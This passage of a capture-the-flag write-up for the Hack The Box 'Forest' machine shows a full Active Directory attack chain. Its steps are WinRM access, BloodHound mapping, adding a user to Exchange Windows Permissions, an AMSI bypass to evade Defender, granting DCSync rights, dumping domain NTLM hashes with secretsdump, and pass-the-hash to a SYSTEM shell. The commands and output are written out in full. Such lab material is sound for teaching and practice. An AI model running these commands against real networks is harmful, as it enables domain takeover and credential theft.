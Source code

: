 With svc-alfresco credentials we can go for 5985 port

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Forest-10.10.10.161]
└─$ evil-winrm -i 10.10.10.161 -u 'htb.local\svc-alfresco'
Enter Password: 

[...SNIP...]

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

Now, from our linux machine we will execute `bloodhound-python` to see more clearly our path to root

```bash
┌──(kali㉿kali)-[~]
└─$ bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (htb.local:88)] [Errno -3] Temporary failure in name resolution
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 13S
```

Import all the file into bloodhound gui and the search for the user svc-alfresco, right-click and mark him as pwned. Checking the svc-alfresco node info we can see that he is a member of nine groups through nested membership. You can click and see the membership graph.

One of this groups is `Account Operators`, which is a privileged AD group. Member of this group are allowed to create and modify users and add them to non-protected groups. We take a note of this and look at the path to Domain Admins. Click on `Queries` and select `Shortest Path to High Value targets`.

![[Pasted image 20231113153318.png]]

One of the paths shows that the Exchange Windows Permissions group has WriteDacl privileges on the Domain. The WriteDACL privilege gives a user the ability to add ACLs to an object. This means that we can add a user to this group and give them DCSync privileges. Go back to the WinRM shell and add a new user to Exchange Windows Permissions as well as the Remote Management Users group

```bash
*Evil-WinRM* PS C:\> net user john abc123! /add /domain

*Evil-WinRM* PS C:\> net group "Exchange Windows Permissions" john /add

*Evil-WinRM* PS C:\> net localgroup "Remote Management Users" john /add

*Evil-WinRM* PS C:\> menu
[...SNIP...]
[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit

*Evil-WinRM* PS C:\> Bypass-4MSI
Info: Patching 4MSI, please be patient...
[+] Success!

*Evil-WinRM* PS C:\> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\> $pass = convertto-securestring 'abc123!' -asplain -force
*Evil-WinRM* PS C:\> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
*Evil-WinRM* PS C:\> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

The Bypass-4MSI command is used to evade defender before importing the script. The Add-ObjectACL with john's credentials give him DCSync rights. Now, the secretsdump script from Impacket can now be run as john, and used to reveal the NTLM hashes for all domain users

```bash
┌──(kali㉿kali)-[~]
└─$ /usr/share/doc/python3-impacket/examples/secretsdump.py htb/john@10.10.10.161
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
[...SNIP...]
```

WIth psexec we got a root shell

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Forest-10.10.10.161]
└─$ impacket-psexec Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file LjbiRSPM.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service ycgK on 10.10.10.161.....
[*] Starting service ycgK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```